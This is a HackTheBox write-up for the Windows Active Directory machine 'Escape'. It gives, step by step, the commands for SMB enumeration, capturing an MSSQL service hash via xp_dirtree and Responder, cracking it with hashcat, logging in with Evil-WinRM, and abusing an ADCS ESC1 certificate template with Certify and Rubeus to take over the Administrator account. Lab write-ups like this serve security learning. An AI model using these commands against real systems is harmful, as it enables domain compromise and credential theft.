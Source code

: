```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Escape/logo.png
date: 2023-12-21 09:45:47+07:00
modified: 2023-12-21 09:45:47+07:00
categories: HackTheBox
machine_author:
  link: https://app.hackthebox.com/users/184611
  name: Geiseric
tags: [Escape, Bruteforce, leak, mssql, xp_cmdshell, responder, xp_dirtree, NTLM, NTLMv2, WinRM, Evil-Winrm, BAK, ADCS, Certify, ESC1, Rubeus, smb, hashcat, Windows, OSCP, Writeup]
title: Escape - HackTheBox
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Escape is a **medium** difficulty Windows Active Directory machine that starts with an SMB share that guest authenticated users can download a sensitive PDF file. Inside the PDF file temporary credentials are available for accessing an MSSQL service running on the machine. An attacker is able to force the MSSQL service to authenticate to his machine and capture the hash. It turns out that the service is running under a user account and the hash is crackable. Having a valid set of credentials an attacker is able to get command execution on the machine using WinRM. Enumerating the machine, a log file reveals the credentials for the user `ryan.cooper`. Further enumeration of the machine, reveals that a Certificate Authority is present and one certificate template is vulnerable to the ESC1 attack, meaning that users who are legible to use this template can request certificates for any other user on the domain including Domain Administrators. Thus, by exploiting the ESC1 vulnerability, an attacker is able to obtain a valid certificate for the Administrator account and then use it to get the hash of the administrator user.   



# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.11.202`

```bash
nmap -sC -sV -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389 10.10.11.202 -oA ./nmap/escape -Pn
```

|Ports|Service
|:-------------:|:-------------:|
|53| domain Simple DNS Plus
|88| kerberos-sec  Microsoft Windows Kerberos
|135| msrpc Microsoft Windows RPC
|139| netbios-ssn  Microsoft Windows netbios-ssn
|389| ldap  Microsoft Windows Active Directory LDAP
|445| Windows Server 2016 Standard 14393
|464| kpasswd5?
|593| ncacn_http  Microsoft Windows RPC over HTTP 1.0
|636| Microsoft Windows Active Directory LDAP
|1433| Microsoft SQL Server 2019
|5985| Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

![](https://photos.squarezero.dev/file/abir-images/Escape/1.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/2.png)

Next, I checked the SMB server where I found some shares.

`smbclient -N -L //10.10.11.202`

![](https://photos.squarezero.dev/file/abir-images/Escape/3.png)

I did some other enumeration and found nothing interesting.

# Foothold

I logged Into [Public]() Share using anonymous login and I found a PDF.

`smbclient -N //10.10.11.202/Public`

![](https://photos.squarezero.dev/file/abir-images/Escape/4.png)

Inside the PDF I found credentials to log into SQL server.

Credential -> `PublicUser : GuestUserCantWrite1`

![](https://photos.squarezero.dev/file/abir-images/Escape/5.png)

Using this credential I logged in to MSSQL server.

`mssqlclient.py 'PublicUser:GuestUserCantWrite1@10.10.11.202'`

![](https://photos.squarezero.dev/file/abir-images/Escape/6.png)

I tried to see If I could execute a command using `xp_cmdshell`` but no luck. I tried to activate it but I don't have the permissions.

`xp_cmdshell 'whoami'`

`sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;`
![](https://photos.squarezero.dev/file/abir-images/Escape/7.png)

I looked for databases in the server but nothing interesting.

`SELECT name FROM master.dbo.sysdatabases`

![](https://photos.squarezero.dev/file/abir-images/Escape/8.png)

I started Responder in my local machine to get an NTLMv2 response by making MSSQL server read something from my localhost.

Start Responder -> `sudo responder -vI tun0`

Read from MSSQL -> `xp_dirtree '\\10.10.14.22\myshare';`

![](https://photos.squarezero.dev/file/abir-images/Escape/9.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/10.png)

I used hashcat to crack the NTLMv2 Hash.

`hashcat -m 5600 sql_svc_hash.txt /usr/share/wordlists/rockyou.txt`

![](https://photos.squarezero.dev/file/abir-images/Escape/11.png)

Password -> `REGGIE1234ronnie`

I used [Evil-Winrm]() to login to the user but there was no flag.

`evil-winrm -u sql_svc -p 'REGGIE1234ronnie' -i 10.10.11.202`

![](https://photos.squarezero.dev/file/abir-images/Escape/12.png)

After some enumeration I found `ERRORLOG.BAK` inside `C:\SQLServer\Logs`.

![](https://photos.squarezero.dev/file/abir-images/Escape/13.png)

At the very end, we can see the credentials of Ryan.Cooper.

![](https://photos.squarezero.dev/file/abir-images/Escape/14.png)

Credential -> `Ryan.Cooper : NuclearMosquito3`

I logged in using Evil-Winrm and got the flag.

![](https://photos.squarezero.dev/file/abir-images/Escape/15.png)



# Privilege Escalation

I tried ASREProasting and Kerberoasting but no luck

`GetNPUsers.py -dc-ip 10.10.11.202 sequel.htb/sql_svc -request`

`GetUserSPNs.py -dc-ip 10.10.11.202 sequel.htb/sql_svc -request`

![](https://photos.squarezero.dev/file/abir-images/Escape/16.png)

I had to dig deep and Found TLS certificates on port 3269 which was by sequel-DC-CA.

`openssl s_client -showcerts -connect 10.10.11.202:3269  | openssl x509 -noout -text`

![](https://photos.squarezero.dev/file/abir-images/Escape/17.png)

I uploaded [Certify.exe](https://github.com/GhostPack/Certify) to the victim machine and found the vulnerable certificate.

`.\Certify.exe find /vulnerable`

![](https://photos.squarezero.dev/file/abir-images/Escape/18.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/19.png)

We can see the Validation period is 10 years Also the owner is Administrator. There are bad permissions listed which we can abuse as well.

Let's run Certify with alt name administrator to get certification which we can later craft to abuse.

```Powershell
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```

We get an RSA key and Certificate.

```Powershell
----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAptfb4Z6gnih00wPublNRZnDeJew6dNUjnIK9G3ABXssfprGP
qy0qdSl4s71+m2YSaC/4uDhEIwcxLDhMqwlmMzmCv8QQmJyosvtAFUFxtAg+dpBU
--snip--
/PuJaiETVwdaoqNlswkMHKnR0s
LWZ3L+xYD9LCVDkKC7sgleaa7uScTURFCr5F2FctdBwXSdydtFwRCMGL4BHLpsDv
Svcn4kSdHqzoGeooLwlIi+j4J+2DOWdYwJBhDd4wpPauoLdLR1EU
-----END RSA PRIVATE KEY-----
----BEGIN CERTIFICATE-----
MIIGEjCCBPqgAwIBAgITHgAAAAuikoIHtx76ygAAAAAACzANBgkqhkiG9w0BAQsF
ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwHhcNMjMxMjIyMDkxMTUwWhcNMjUxMjIy
MDkyMTUwWjBTMRMwEQYKCZImiZPy
--snip--
ei9J2F4a+S18ZzwBww23Zg13HJSu
4gr2IESXJuevi5d3VZACMXXcUs2rV1QNeRfqZNSQHepPEqlX2XEJMCTsyT4Pzqhr
XgWWAS1a1QQe1UUrvE8dDT7auRt+yg==
-----END CERTIFICATE-----
```

We can save this in one file cert.pem and convert it to cert.pfx


```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![](https://photos.squarezero.dev/file/abir-images/Escape/20.png)

Next, I upload [Rubeus](https://github.com/GhostPack/Rubeus) & [cert.pfx](). 

Now we directly include the ticket in the system or get credentials that we can use to log in via Evil-Winrm.

Option 1:
```
.\Rubeus.exe asktgt /domain:SEQUEL.HTB /user:Administrator /certificate:cert.pfx /dc:dc.SEQUEL.HTB /ptt
```

Option 2:
```
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials /show /nowrap
```

I used the 2nd option to get NTLM hash of the administrator.

![](https://photos.squarezero.dev/file/abir-images/Escape/21.png)

After logging in I got the root flag.

![](https://photos.squarezero.dev/file/abir-images/Escape/22.png)



